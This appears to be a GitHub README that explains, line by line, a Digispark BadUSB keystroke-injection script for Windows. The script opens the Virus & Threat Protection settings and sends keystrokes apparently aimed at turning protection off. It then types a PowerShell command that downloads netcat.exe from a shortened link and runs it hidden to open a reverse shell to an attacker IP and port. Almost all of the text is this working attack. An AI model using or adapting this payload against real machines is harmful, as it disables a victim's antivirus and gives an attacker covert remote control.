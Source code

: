<h2> <div align="center"><i>This script uses the DigiKeyboard library to automate keystrokes and input text Here is a breakdown of each line of code:</i></div></h2>

<code <div align="center"> <color="#00979C">#include "DigiKeyboard.h"</code>

<em><div align="center"><code>This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.</code></em></div>

<code color="#00979C">void setup(){</code>

<em><div align="center"><code>This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>

<em><div align="center"><code>This line introduces a delay of 1000 milliseconds (1 second) in the program execution.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>

<em><div align="center"><code>This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>

<em><div align="center"><code>Another delay of 1000 milliseconds is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.print("virus & threat protection");</code>

<em><div align="center"><code>The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(500);</code>

<em><div align="center"><code>A delay of 500 milliseconds (0.5 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>

<em><div align="center"><code>The sendKeyStroke() function simulates pressing the Enter key.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(5000);</code>

<em><div align="center"><code>A delay of 5000 milliseconds (5 seconds) is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(43);</code>

<em><div align="center"><code>The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>

<em><div align="center"><code>Another Enter key press is simulated.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(700);</code>

<em><div align="center"><code>A delay of 700 milliseconds (0.7 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>

<em><div align="center"><code>Yet another Enter key press is simulated.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(700);</code>

<em><div align="center"><code>Another delay of 700 milliseconds is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>

<em><div align="center"><code>The sendKeyStroke() function simulates pressing the Space key.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(2000);</code>

<em><div align="center"><code>A delay of 2000 milliseconds (2 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>

<em><div align="center"><code>The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>

<em><div align="center"><code>A delay of 1000 milliseconds (1 second) is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>

<em><div align="center"><code>The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows.</code></em></div>
<code color="#00979C">DigiKeyboard.delay(500);</code>

<em><div align="center"><code>A delay of 500 milliseconds (0.5 seconds) is added.</code></em></div>
<code color="#00979C"><code>DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code>

<em><div align="center"><code>The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.</code></em></div>
<code color="#00979C">DigiKeyboard.delay(700);</code>

<em><div align="center"><code>A delay of 700 milliseconds (0.7 seconds) is introduced.</code></em></div>
<code color="#00979C">DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code>

<em><div align="center"><code>The print() function is used to simulate typing the provided string, which contains a PowerShell command.</code></em></div>
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>

<em><div align="center">The sendKeyStroke() function is used to simulate pressing the Enter key.</code></em></div> <code color="#00979C">void loop(){}</code>

<em><div align="center"><code>This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions.</code></em></div>




